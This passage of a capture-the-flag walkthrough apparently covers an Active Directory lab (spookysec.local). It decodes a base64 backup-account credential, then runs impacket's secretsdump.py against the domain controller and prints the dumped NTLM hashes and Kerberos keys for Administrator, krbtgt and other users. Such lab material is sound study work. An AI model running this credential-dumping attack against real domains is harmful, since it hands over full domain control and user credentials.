 5. What is the content of the file?

:arrow_right: `YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw`

6. Decoding the contents of the file, what is the full contents?

:arrow_right: `backup@spookysec.local:backup2517860`


Task7:  Domain Privilege Escalation Elevating Privileges within the Domain
---------------------------------------------------------------------------

The username of the account ***`"backup"`*** gets us thinking. What is this the **`backup account`** to?

Well, it is the _`backup account`_ for the ***Domain Controller***.

- This account has a <ins>**unique** permission</ins> that allows _all Active Directory changes to be synced with this user account_. This includes password hashes.

So, as we haven't got any <ins>shell</ins> in the ***victim machine***, we can't use mimikatz or kiwi.

But we can use: **`secretsdump.py`** which is present within the **impacket** toolkit.

This will allow us to retrieve all of the password hashes that this user account (<ins>that is synced with the domain controller</ins>) has to offer. Exploiting this, we will ***effectively have full control over the AD Domain***.

```
$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py spookysec.local/backup:'backup2517860'@10.10.59.96 -just-dc

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:47eaa4ce2592a8d4f9fe658f2ea0043a:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc
krbtgt:aes128-cts-hmac-sha1-96:e7301235ae62dd8884d9b890f38e3902
krbtgt:des-cbc-md5:b94f97e97fabbf5d
spookysec.local\skidy:aes256-cts-hmac-sha1-96:3ad697673edca12a01d5237f0bee628460f1e1c348469eba2c4a530ceb432b04
spookysec.local\skidy:aes128-cts-hmac-sha1-96:484d875e30a678b56856b0fef09e1233
spookysec.local\skidy:des-cbc-md5:b092a73e3d256b1f
```